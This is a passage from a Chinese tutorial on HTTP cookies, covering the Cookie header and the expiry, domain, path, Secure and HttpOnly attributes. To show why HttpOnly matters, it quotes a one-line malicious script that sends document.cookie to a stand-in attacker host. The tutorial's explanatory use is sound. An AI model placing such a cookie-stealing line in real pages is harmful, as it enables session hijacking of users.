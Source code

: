 上面代码会向服务器发送名为 foo 的 `Cookie`，值为 bar。

`Cookie`字段可以包含多个 `Cookie`，使用分号（;）分隔。

`Cookie: name=value; name2=value2; name3=value3`

下面是一个例子。

```javascript
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

服务器收到浏览器发来的 `Cookie` 时，有两点是无法知道的。

- `Cookie` 的各种属性，比如何时过期。
- 哪个域名设置的 `Cookie`，到底是一级域名设的，还是某一个二级域名设的。

#### 3.Cookie 的属性

##### 3.1 Expires，Max-Age

`Expires`属性指定一个具体的到期时间，到了指定时间以后，浏览器就不再保留这个 `Cookie`。它的值是 UTC 格式，可以使用`Date.prototype.toUTCString()`进行格式转换。

`Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;`

如果不设置该属性，或者设为`null`，`Cookie` 只在当前会话（session）有效，浏览器窗口一旦关闭，当前 Session 结束，该 `Cookie` 就会被删除。另外，浏览器根据本地时间，决定 `Cookie` 是否过期，由于本地时间是不精确的，所以没有办法保证 `Cookie` 一定会在服务器指定的时间过期。

`Max-Age`属性指定从现在开始 `Cookie` 存在的秒数，比如`60 * 60 * 24 * 365`（即一年）。过了这个时间以后，浏览器就不再保留这个 `Cookie`。

如果同时指定了`Expires`和`Max-Age`，那么`Max-Age`的值将优先生效。

如果`Set-Cookie`字段没有指定`Expires`或`Max-Age`属性，那么这个 `Cookie` 就是 `Session Cookie`，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 `Cookie`。

##### 3.2 Domain，Path

`Domain`属性指定浏览器发出 HTTP 请求时，哪些域名要附带这个 `Cookie`。如果没有指定该属性，浏览器会默认将其设为当前 URL 的一级域名，比如`www.example.com`会设为`example.com`，而且以后如果访问`example.com`的任何子域名，HTTP 请求也会带上这个 `Cookie`。如果服务器在`Set-Cookie`字段指定的域名，不属于当前域名，浏览器会拒绝这个 `Cookie`。

`Path`属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 `Cookie`。只要浏览器发现，`Path`属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 `Cookie`。比如，`PATH`属性是`/`，那么请求`/docs`路径也会包含该 `Cookie`。当然，前提是域名必须一致。

##### 3.3 Secure，HttpOnly

`Secure`属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 `Cookie` 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的`Secure`属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。

`HttpOnly`属性指定该 `Cookie` 无法通过 JavaScript 脚本拿到，主要是`Document.cookie`属性、`XMLHttpRequest`对象和 `Request API` 都拿不到该属性。这样就防止了该 `Cookie` 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 `Cookie`。

`(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;`

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 `Cookie` 发往第三方服务器。如果设置了一个 `Cookie` 的`HttpOnly`属性，上面代码就不会读到该 `Cookie`。

#### 4.document.cookie
